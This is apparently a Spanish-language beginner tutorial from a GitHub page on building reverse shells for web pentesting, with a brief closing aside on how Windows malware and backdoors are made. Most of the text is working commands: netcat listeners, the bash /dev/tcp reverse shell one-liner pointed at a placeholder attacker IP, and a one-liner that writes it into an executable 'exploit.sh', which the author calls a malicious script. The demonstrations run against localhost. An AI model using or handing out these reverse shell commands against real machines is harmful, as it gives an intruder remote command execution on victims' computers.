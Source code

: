 ```yaml
---
title: PentesTing
published: true
---
```


**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="yellow">[*]</font><font color="green"> Empezaremos con las pruebas de ReverseShell:</font></h3>
<font color="white">los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

para linux:

```#!/bin/bash
sudo apt-get install netcat bash
```

para arch-linux:

```#!/bin/bash
pacman -Sy netcat bash
```

<br>

<h3><font color="yellow">[*]</font><font color="green"> Importante</font></h3>
<ph>Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

```#!/bin/bash
bash
```


<img src="screenshots/screen_bash.jpg">

<ph><font color="yellow">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</ph>
<br>

---
<br>
<ph><font color="yellow">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </ph>

```#!/bin/bash
nc -nvlp 443
```

<ph><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</ph>
```#!/bin/bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<ph><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</ph>
<br>
<ph><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</ph>

<br>

<ph><font color="yellow">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</ph>

```#!/bin/bash
bash
```
```#!/bin/bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<ph><font color="yellow">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</ph>

-------
<br>

<ph><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</ph>

<br>

```#!/bin/bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<ph><font color="yellow">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
 archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</ph>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch`, darle permisos
de ejecucion con `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```
<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

```#!/bin/bash
touch exploit.sh
```
```#!/bin/bash
chmod +x exploit.sh
```
Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`

<br>

<ph><font color="yellow">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto 443 con netcat. Recuerde
que con el comando <b>nc -nlvp 443</b> nos poniamos en escucha por el puerto 443 este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<ph><font color="yellow">[*]</font> Y ejecutamos el archivo creado</ph>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<ph><font color="yellow">[↑]</font><b> Ahora como puden ver tengo una reverse shell</b></ph>
<br>
<ph><font color="yellow">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</ph>
<br>
<ph>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></ph>

---

<h3>¿Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<ph>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<ph>
<ph>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</ph>

